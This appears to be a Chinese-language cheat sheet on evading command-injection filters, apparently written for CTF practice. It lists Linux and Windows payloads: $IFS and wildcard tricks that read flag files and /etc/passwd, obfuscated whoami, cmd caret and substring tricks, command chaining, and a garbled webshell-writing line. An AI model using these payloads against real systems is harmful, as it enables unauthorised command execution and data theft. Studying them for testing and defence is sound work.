

少年需有凌云志，不负黄河万古流
Linux
替换空格
1 | cat${IFS}flag.txt |
1 | cat$IFS$9flag.txt |
1 | cat<flag.txt |
1 | cat<>flag.txt |

利用变量绕过
1 | a=c;b=at;$a$b flag.txt |
1 | a=w;b=h;c=o;d=a;e=m;f=i;$a$b$c$d$e$f |
利用base编码绕过
1 | `echo 'Y2F0Cg==' | base64 -d` flag.txt |
连接符截断绕过
1 | c'a't flag.txt |
1 | c\at flag.txt |
1 | ca$@t flag.txt |
1 | wh$1oami |
1 | whoa$*mi |
通配符绕过
在Linux里?可以代替一个任意字符
1 | /???/[l-n]s //可以代替ls |
1 | /???/c?t flag.txt //可代替cat flag.txt |
1 | /???/c?t /???/p????? //可代替cat /etc/passwd |
星号 * 在linux中用来代表一个或多个任何字符，包括空字符
1 | /*/bin/wh*i |
? 和 * 组合使用
1 | /???/c?t /e??/p*d |
1 | w`\saldkj2190`ho`\12wsa2`am`\foj11`i |
Windows
符号与命令的绕过
在看一个例子开始之前，首先了解一点， " ^ 和成对的圆括号 () 符号并不会影响命令的执行。在windows环境下，命令可以不区分大小写
1 | ((((Wh^o^am""i)))) |
1 | w"h"o"a"m"i |
1 | wh""o^a^mi" |

可以加无数个 ” 但不能同时连续加2个 ^ 符号，因为 ^ 号是cmd中的转义符，跟在他后面的符号会被转义
set命令和windows变量的绕过
set命令可以用来设置一个变量
变量使用%%包裹
1 | set xb=1111 |

1 | set a=whoami |
1 | set a=wh""o |

切割字符串绕过
1 | %a:~0% //取出变量a中的所有字符 |
1 | %a:~0,6% //取出a的值，从第0个位置开始，取6个值 |
电脑上的环境变量还是挺多的，那我几乎可以用这种方式执行任何命令，因为这些变量的值，几乎都有26个字母在了
从简单的开始，如果命令执行不允许空格，被过滤，那么可以用如下方法
1 | net%CommonProgramFiles:~10,1%user |
还可以配合其他符号一起使用
1 | n^et%CommonProgramFiles:~10,1%us^er |
我们可以通过这种方式给网站写个webshell
1 | set mm=a lvehpp?G |

逻辑运算符绕过
使用 | 符号分隔两条命令，只会执行后面那条命令
1 | ping baidu.com -n 1 | w""h^o^a^m^i |
在 || 符号的情况下，只有前面的命令失败，才会执行后面的语句
1 | ping a || whoami |
& 符号，不管前面的命令是成功还是失败，都会执行后面的命令
1 | ping 127.0.0.1 -n 1 & whoami |
而 && 符号就必须两条命令都为真才可以了
1 | ping baidu.com -n 1 && whoami |